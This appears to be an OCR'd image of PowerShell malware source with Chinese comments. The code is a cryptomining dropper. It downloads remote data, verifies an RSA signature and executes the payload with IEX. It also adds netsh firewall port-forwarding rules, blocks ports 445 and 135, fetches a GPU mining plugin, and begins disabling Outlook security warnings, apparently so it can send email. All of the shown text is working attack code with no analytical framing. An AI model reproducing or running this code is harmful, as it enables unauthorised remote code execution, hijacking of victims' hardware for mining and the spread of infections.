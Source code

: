 ```powershell
		$res_bytes = $webclient."DownloadData"($finalurl)
		if($res_bytes.count -gt 173){
			$sign_bytes = $res_bytes[0..171];
			$raw_bytes = $res_bytes[173..$res_bytes.count];
			$rsaParams = New-Object System.Security.Cryptography.RSAParameters
			# 公钥 	2mWo17uXvG1BXpmdgv8v/3NTmnNubHtV62fWrk4jPFI9wM3NN2vzTzticIYHlm7K3r2mT/YR0WDciL818pLubLgum30r0Rkwc8ZSAc3nxzR4iqef4hLNeUCnkWqulY5C0 M85bjDLCpjblz/2LpUQcv1j1feIY6R7rpfqOLdHa10=
			$rsaParams.Modulus = 0xda,0x65,0xa8,0xd7,0xbb,0x97,0xbc,0x6d,0x41,0x5e,0x99,0x9d,0x82,0xff,0x2f,0xff,0x73,0x53,0x9a,0x73,0x6e,0x6c,0x7b,0x55,0xeb,0x67,0xd6,0xae,0x4e,0x23,0x3c,0x52,0x3d,0xc0,0xcd,0xcd,0x37,0x6b,0xf3,0x4f,0x3b,0x62,0x70,0x86,0x07,0x96,0x6e,0xca,0xde,0xbd,0xa6,0x4f,0xf6,0x11,0xd1,0x60,0xdc,0x88,0xbf,0x35,0xf2,0x92,0xee,0x6c,0xb8,0x2e,0x9b,0x7d,0x2b,0xd1,0x19,0x30,0x73,0xc6,0x52,0x01,0xcd,0xe7,0xc7,0x34,0x78,0x8a,0xa7,0x9f,0xe2,0x12,0xcd,0x79,0x40,0xa7,0x91,0x6a,0xae,0x95,0x8e,0x42,0xd0,0xcf,0x39,0x6e,0x30,0xcb,0x0a,0x98,0xdb,0x97,0x3f,0xf6,0x2e,0x95,0x10,0x72,0xfd,0x63,0xd5,0xf7,0x88,0x63,0xa4,0x7b,0xae,0x97,0xea,0x38,0xb7,0x47,0x6b,0x5d
			$rsaParams.Exponent = 0x01,0x00,0x01
			$rsa = New-Object -TypeName System.Security.Cryptography.RSACryptoServiceProvider;
			$rsa.ImportParameters($rsaParams)
			$base64 = -join([char[]]$sign_bytes)
			$byteArray = [convert]::FromBase64String($base64)
			$sha1 = New-Object System.Security.Cryptography.SHA1CryptoServiceProvider
			if($rsa.verifyData($raw_bytes,$sha1,$byteArray)) {
				IEX (-join[char[]]$raw_bytes)
			}
		}
	} catch{}
}
SIEX "$core_url/report.jsp"
# flag文件 (0kb)
$ff=$env:tmp+'\GkPiGedjuq8f91j.txt'
# ff是否存在
if(!(Test-Path $ff)){
	## 打开防护墙设置DNS端口转发
	cmd.exe /c netsh.exe firewall add portopening tcp 65529 SDNSd
	netsh.exe interface portproxy add v4tov4 listenport=65529 connectaddress=1.1.1.1 connectport=53
	cmd.exe /c netsh.exe firewall add portopening tcp 65533 DNSd
	netsh.exe interface portproxy add v4tov4 listenport=65533 connectaddress=1.1.1.1 connectport=53
	# 禁止445，135的访问
	netsh advfirewall firewall add rule name="deny445" dir=in protocol=tcp localport=445 action=block
	netsh advfirewall firewall add rule name="deny135" dir=in protocol=tcp localport=135 action=block
	new-item $ff -type file
}
# 英伟达显卡且64位系统，会下载显卡加速挖矿插件
try{
	if($isn -and $is64){
		$nd="nvd.zip"
		$ndg="$env:tmp\nvdg.dat"
		if(!(test-path $ndg) -or (Get-Item $ndg).length -ne 18475008){
			(new-object Net.WebClient)."DownloadFile"($down_url+"/$nd","$env:tmp\$nd")
			(New-Object -ComObject Shell.Application).NameSpace($env:tmp).CopyHere("$env:tmp\$nd\*",16)
			Remove-Item $env:tmp\$nd
		}
	}
}catch{}

# 关闭Outlook的安全告警 
# 当程序尝试访问您的Outlook客户端以代表您发送电子邮件，并且检测到您的防病毒软件处于非活动状态或过期时，将显示此警告消息。

$hks="HKEY_LOCAL_MACHINE\SOFTWARE\"
$mso="Microsoft\Office"
$wnd="Wow6432Node\"
```